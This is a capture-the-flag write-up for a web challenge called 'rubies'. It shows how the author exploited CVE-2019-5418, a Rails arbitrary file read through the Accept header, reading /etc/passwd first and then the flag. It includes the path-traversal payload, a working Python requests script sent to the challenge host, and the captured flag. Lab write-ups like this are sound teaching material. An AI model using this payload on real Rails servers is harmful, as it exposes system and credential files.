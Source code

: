# rubies

> **Category**: Web\
> **Author**: Stefan

## TL;DR
Exploiting CVE-2019-5418

---

## Challenge Description
The challenge name was "rubies" and we had an image with a ruby. The website title, when base64 decoded, was "rails". Clicking on the image brought me to `/vuln` and returned a 500 server error.

<img src="https://i.imgur.com/G3dmPpJ.png" alt="Writeup_image_1" width="400"/>

## Solution
### Step 1: Identifying the CVE
After some investigation, I looked through the CVEs for Ruby on Rails on cvedetails.com but found nothing relevant. I then googled `ruby rails cve "poc"` (PoC – Proof of Concept), which led us to CVE-2019-5418.

### Step 2: Exploiting the Vulnerability
The vulnerable path was `/vuln`, and we found the [CVE-2019-5418 GitHub repository](https://github.com/mpgn/CVE-2019-5418). By changing the `Accept` header, we could retrieve files from the server.

<img src="https://i.imgur.com/MIHu9dr.png" alt="Writeup_image_2" width="700"/>

### Step 3: Finding the Flag
To identify the flag file path, I first looked into `/etc/passwd`, as the CVE example did. There, I found a user named "gem" with a corresponding home directory, suggesting that the flag might be in that directory.

The payload I used was `../../../../../../../home/gem/flag.txt{{`.

<img src="https://i.imgur.com/y06p0rb.png" alt="Writeup_image_3" width="800"/>

## Script
```python
import requests

url = "http://34.107.71.117:30786/vuln"
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36",
    "Accept": "../../../../../../../home/gem/flag.txt{{",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, headers=headers)
print(response.text)
```

## Flag
`CTF{C5547BAA6CE135850B3A728D442925F1AE63F2BF22301676282958A0CE5FAE59}`